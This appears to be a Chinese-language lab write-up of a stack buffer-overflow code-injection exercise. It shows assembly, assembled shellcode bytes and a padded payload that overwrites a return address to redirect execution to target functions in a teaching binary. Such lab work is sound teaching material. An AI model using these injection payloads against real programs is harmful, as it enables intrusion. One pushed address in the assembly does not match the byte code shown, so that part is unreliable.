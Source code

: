 首先构造出传递参数的汇编指令
```
movq	$0x59b997fa,%rdi	#cookie放在参数中
pushq	$0x4017c0			#目标函数地址入栈
retq 						#跳转到目标函数地址
```

生成的byte-code为
```
48 c7 c7 fa 97 b9 59 
68 ec 17 40 00
c3
```

byte-code的地址为%rsp(0x5561dc78)，最后的payload为
```
%rsp:	0x5561dc78:		48 c7 c7 fa 97 b9 59 
						68 ec 17 40 00
						c3
						41 41 41 41 41 41 41 41
						41 41 41 41 41 41 41 41
						41 41 41 41 41 41 41 41
						41 41 41
%rsp+0x28: 				78 dc 61 55 
```

### level-3(code-injection)
`r -i ./solved-m3/phase3/test -q`

touch3的地址为0x4018fa

* gdb调试技巧
r命令后可以带参数
r -i ./solved-m3/phase3/test -q

先写一个简单的字符串转hex的脚本
```py
input_str = '59b997fa'

output_ascii = ''

for char in input_str:
	output_ascii += str(hex(ord(char)))[2:]+' '
print(output_ascii)
```

构造shellcode
```
mov $0x5561dc97,%rdi
pushq $0x4018fa
ret
```

gcc -c byte-code.s
```
48 c7 c7 97 dc 61 55
68 fa 18 40 00
c3
```
